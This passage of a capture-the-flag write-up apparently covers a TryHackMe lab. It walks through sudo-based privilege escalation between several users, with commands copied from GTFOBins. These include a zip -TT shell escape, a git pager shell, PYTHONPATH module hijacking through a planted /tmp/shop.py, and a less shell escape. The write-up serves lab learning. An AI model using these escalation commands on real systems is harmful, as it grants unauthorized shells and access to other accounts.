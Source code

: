 then you will find that `dalia` can run the `zip` command as a `sudo` so search for it's script on [GTFobins](https://gtfobins.github.io/gtfobins/bash/) and add before it `sudo -u` to run it as `Silvio`, the script will be like that:

```bash
TF=$(mktemp -u)
sudo -u silvio /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
rm $TF
```
Now get a good shell...
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

and get your flag....

**a fast note, the hint on `THM` says "Check the Postal Code on the address." it means the `zip` command , very silly ain't it ?!**

---
#### Reza's Flag

The same as `silvio` but it is a `git` permissions:
```bash
sudo -u reza PAGER='sh -c "exec sh 0<&1"' git -p help
``` 

---
####  Jordan's Flag

Check the permissions of Reza with `sudo -l`, you will see that there is a permission on a `python` file that `Reza` can run it as `Jordan`, so as it became usual let's go to [GTFobins](https://gtfobins.github.io/gtfobins/bash/) to get a shell code from there, but wait, the file can't find a module called `shop.py` so we can write a module with that name and put the exploit code we want in it and then run the file again.

The exploit writed in a python script we will use as the missing module.
```bash
echo "import pty;pty.spawn('/bin/bash')" > /tmp/shop.py
```
And now we need to redirect the script to run our module, we can do that by changing the environment variable called `PYTHONPATH`, and by changing it to the path of our written module we can do the evil thing 😈.
```bash
sudo -u jordan PYTHONPATH=/tmp/ /opt/scripts/Gun-Shop.py
```
And use the command `rev` to print the flag in a proper way:
```bash
rev flag.txt
```

---
#### Ken's Flag
The repeating things `sudo -l`, you will find a way with the `less` command, and go to [GTFobins](https://gtfobins.github.io/gtfobins/bash/) and take the shell code...
```bash
sudo -u ken less /etc/profile
!/bin/sh
```

---